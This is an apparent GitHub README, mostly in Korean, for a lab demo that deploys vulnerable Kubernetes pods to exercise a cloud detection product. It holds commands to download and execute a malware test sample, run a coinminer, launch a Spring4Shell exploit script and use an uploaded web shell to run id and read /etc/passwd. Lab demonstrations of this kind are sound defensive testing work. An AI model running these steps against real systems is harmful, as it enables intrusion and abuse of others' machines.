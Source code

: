 # Spring4Shell and Coinminer PoC
## This is for testing and demo purposes

#### STEP 0. EKS와 같은 K8S 클러스터, 클러스터에 접속가능한 VM 준비
#### STEP 1. Git 설치후 본 Repo 를 clone 혹은 .zip으로 다운로드 
#### STEP 2. Dockerfile을 docker build . -t spring4shell 로 빌드하여 Registry에 올리거나, 로컬 경로 메모

![WebPage](screenshots/dockerfilebuild.png?raw=true)

#### STEP 3. kubectl apply -f xdr_for_cloud_demo.yaml 의 이미지 경로 확인 및 수정(주석 참조)
#### STEP 4. kubectl get all 로 pod 및 service 확인

아래 YAML file에 kubectl apply:
```sh
$ kubectl apply -f xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```

2개의 pod와 1개의 서비스가 성공적으로 생성되었다면 아래 커맨드를 통해 STATUS를 점검합니다.
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Coinminer pod 및 Spring4Shell pod - 취약한 pod 가 2개 생성됩니다.

## STEP 5. Use cases

### 1. Coinminer Attack
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

![WebPage](screenshots/Coinminer.png?raw=true)


### 2. Exploit the Spring4Shell service
`kubectl get all` 명령의 출력을 확인하여 배포된 서비스의 EXTERNAL-IP를 찾고, 해당 IP 주소를 웹 브라우저에 입력하여 접속합니다.

![WebPage](screenshots/checkService.png?raw=true)

위 화면을 확인하였으면 exploit.py 로 공격을 실행합니다.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
![WebPage](screenshots/exploitpy.png?raw=true)

위 과정이 완료되면 webshell이 서버에 업로드되며, 아래 명령어를 사용하여 id 또는 /etc/password 파일을 확인할 수 있습니다.
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
